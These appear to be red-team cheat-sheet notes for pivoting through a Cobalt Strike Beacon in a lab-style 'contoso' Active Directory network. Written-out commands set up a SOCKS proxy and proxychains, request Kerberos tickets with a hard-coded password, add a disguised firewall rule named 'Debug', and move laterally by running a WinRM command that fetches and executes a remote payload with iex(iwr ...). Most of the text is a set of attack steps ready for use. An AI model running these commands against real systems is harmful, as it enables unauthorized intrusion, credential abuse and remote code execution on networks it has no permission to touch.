 
Add manual DNS entries
```powershell
Add-Content -Path C:\Windows\System32\drivers\etc\hosts -Value '10.10.120.1 lon-dc-1'

Add-Content -Path C:\Windows\System32\drivers\etc\hosts -Value '10.10.124.1 enc-dc-1 enc-dc-1.contoso.enclave'
```

```powershell
10.10.120.1 lon-dc-1 lon-dc-1.contoso.com
10.10.124.1 enc-dc-1 enc-dc-1.contoso.enclave
10.10.124.50 enc-jmp-1 enc-jmp-1.contoso.enclave
10.10.124.10 enc-fs-1 enc-fs-1.contoso.enclave
```

Start a socks proxy within Beacon
```powershell
socks 1080 socks5
```

##### Proxifier
1. Go **Profile** > **Proxy Servers** and add a new proxy server.
	- Address: `teamserver_ip`
	- Port: 1080
	- Protocol: Version 5
	- Use this proxy by default? -> No.
2. Go **Profile** > **Proxification Rules** and add the following rule
	- Name: Beacon
	- Applications: Any
	- Target hosts: 10.10.120.0/23
	- Target ports: Any
	- Action: Proxy SOCKS5 10.0.0.5

##### Proxychains

Edit `/etc/proxychains.conf` accordingly
```powershell
socks5 [teamserver_ip] 1080
```

Use proxychains to requests tickets and perform attacks
```bash
proxychains getTGT.py 'CONTOSO.COM/rsteel:Passw0rd!' -dc-ip 10.10.120.1

proxychains mssqlclient.py contoso.com/rsteel@lon-db-1 -windows-auth -no-pass -k -dc-ip 10.10.120.1
```

---

##### Reverse Port Forward

Create port forward on foothold machine
```powershell
rportfwd 28190 localhost 80

run netsh advfirewall firewall add rule name="Debug" dir=in action=allow protocol=TCP localport=28190
```

Perform lateral movement
```powershell
remote-exec winrm lon-ws-1 iex(iwr http://lon-wkstn-1:28190/test -useb)
```